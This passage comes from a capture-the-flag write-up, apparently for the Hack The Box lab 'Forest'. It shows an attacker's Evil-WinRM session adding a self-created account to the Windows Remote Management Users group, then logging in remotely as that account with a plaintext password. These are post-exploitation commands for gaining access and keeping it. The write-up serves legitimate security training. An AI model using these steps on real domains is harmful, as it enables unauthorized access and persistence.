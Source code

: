 Adding our new user to ```Remote Management Users``` enable ```PS-Remoting``` access,

```c
*Evil-WinRM* PS C:\Users\svc-alfresco> net localgroup "Remote Management Users"
Alias name     Remote Management Users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members

-------------------------------------------------------------------------------
Privileged IT Accounts
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco> net localgroup "Remote Management Users" /add aidenpearce369
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco> net localgroup "Remote Management Users"
Alias name     Remote Management Users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members

-------------------------------------------------------------------------------
aidenpearce369
Privileged IT Accounts
The command completed successfully.

```

Switching to our new user,

```c
┌──(kali㉿aidenpearce369)-[~/SMBShare]
└─$ evil-winrm -u aidenpearce369 -p C@ntH4ckM3 -i 10.10.10.161

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\aidenpearce369\Documents> whoami
htb\aidenpearce369
*Evil-WinRM* PS C:\Users\aidenpearce369\Documents> hostname
FOREST
```
